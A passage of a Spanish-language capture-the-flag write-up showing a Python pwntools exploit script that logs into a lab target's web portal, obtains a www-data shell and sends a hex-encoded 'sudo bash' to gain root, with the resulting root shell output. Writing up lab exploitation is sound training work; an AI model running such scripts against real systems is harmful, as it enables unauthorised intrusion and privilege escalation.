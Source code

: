 ```py
    else:
        print('\n')
        success()
        print(Colors['green'] + "\n\t[+]Conexión establecida como usuario www-data\n" + Colors['reset'])
        time.sleep(1)
    
    print(Colors['purple'] + "\nIniciando escalada de privilegios" + Colors['reset'],end='')
    wait()
    shell.sendline(b'\x73\x75\x64\x6f\x20\x62\x61\x73\x68')
    print(Colors['green'] + "\nPwned!!!\n" + Colors['reset'])
    shell.interactive()
```
Si lo ejecutamos:

```
[*] Switching to interactive mode
bash: cannot set terminal process group (1344): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-170-234:/var/www/html$ sudo bash
$ whoami
root
$  
```

El código completo es el siguiente:
```py
import requests,sys,signal
from pwn import *

Colors = {
    'red': '\033[31m',
    'green': '\033[32m',
    'yellow': '\033[33m',
    'blue': '\033[34m',
    'purple': '\033[35m',
    'cyan': '\033[36m',
    'grey': '\033[37m',
    'reset': '\033[0m'
}

def exiting():
    print(Colors['red']+"\n[!] saliendo...\n"+Colors['reset'])
    sys.exit(1)

if len(sys.argv) < 3:
    print(Colors['yellow'] + f'\n[!] Uso: python3 {sys.argv[0]} "IP"  "Victim_IP"' + Colors['reset'] )
    exiting()

s = requests.Session()
victim = f'http://{sys.argv[2]}/login.php'
victim_portal = f'http://{sys.argv[2]}/portal.php'

def controlc(sig, frame):
    print(Colors['red']+"\n\n[!] saliendo...\n"+Colors['reset'])
    sys.exit(1)

signal.signal(signal.SIGINT, controlc)

def wait():
    for i in range(3):
        print(Colors['purple'] + ".", end='')
        time.sleep(0.8)
```